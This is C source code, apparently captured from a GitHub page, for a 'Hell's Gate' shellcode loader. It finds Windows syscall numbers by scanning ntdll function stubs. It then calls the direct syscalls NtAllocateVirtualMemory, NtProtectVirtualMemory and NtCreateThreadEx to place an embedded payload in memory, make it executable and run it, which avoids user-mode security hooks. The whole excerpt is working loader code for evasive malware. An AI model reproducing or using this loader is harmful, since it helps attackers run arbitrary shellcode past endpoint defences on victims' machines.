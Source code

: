 ```c
		if (djb2(pczFunctionName) == pVxTableEntry->dwHash) {
			pVxTableEntry->pAddress = pFunctionAddress;
			
			WORD cw = 0;
			while (TRUE) {
				if (*((PBYTE)pFunctionAddress + cw) == 0x0f && *((PBYTE)pFunctionAddress + cw + 1) == 0x05)
					return FALSE;

				if (*((PBYTE)pFunctionAddress + cw) == 0xc3)
					return FALSE;

				if (*((PBYTE)pFunctionAddress + cw) == 0x4c
					&& *((PBYTE)pFunctionAddress + 1 + cw) == 0x8b
					&& *((PBYTE)pFunctionAddress + 2 + cw) == 0xd1
					&& *((PBYTE)pFunctionAddress + 3 + cw) == 0xb8
					&& *((PBYTE)pFunctionAddress + 6 + cw) == 0x00
					&& *((PBYTE)pFunctionAddress + 7 + cw) == 0x00) {
					BYTE high = *((PBYTE)pFunctionAddress + 5 + cw);
					BYTE low = *((PBYTE)pFunctionAddress + 4 + cw);
					pVxTableEntry->wSystemCall = (high << 8) | low;
					break;
				}

				cw++;
			};
		}
	}

	return TRUE;
}

BOOL Payload(PVX_TABLE pVxTable) {
	NTSTATUS status = 0x00000000;

	printf("[+] Address of VX_TABLE: %p | [+] Addres Of HellsGate: %p | [+] Address Of HellDescent: %p\n", pVxTable, HellsGate, HellDescent);

	// Aloca memória pro shellcode
	PVOID lpAddress = NULL;
	//SIZE_T sDataSize = sizeof(shellcode);
	SIZE_T sDataSize = sizeof(payload);
	HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
	status = HellDescent((HANDLE)-1, &lpAddress, 0, &sDataSize, MEM_COMMIT, PAGE_READWRITE);

	printf("[+] Allocated Shellcode : 0x%p in Adress: 0x%p \n", payload, lpAddress); 
	
	// Escreve pra memória
	VxMoveMemory(lpAddress, payload, sizeof(payload));

	// Muda as permissões da região da memória
	ULONG ulOldProtect = 0;
	HellsGate(pVxTable->NtProtectVirtualMemory.wSystemCall);
	status = HellDescent((HANDLE)-1, &lpAddress, &sDataSize, PAGE_EXECUTE_READ, &ulOldProtect);

	printf("[!] Enjoy your direct syscalls little mage\n"); 

	// Cria a Thread
	HANDLE hHostThread = INVALID_HANDLE_VALUE;
	HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
	status = HellDescent(&hHostThread, 0x1FFFFF, NULL, (HANDLE)-1, (LPTHREAD_START_ROUTINE)lpAddress, NULL, FALSE, NULL, NULL, NULL, NULL);

```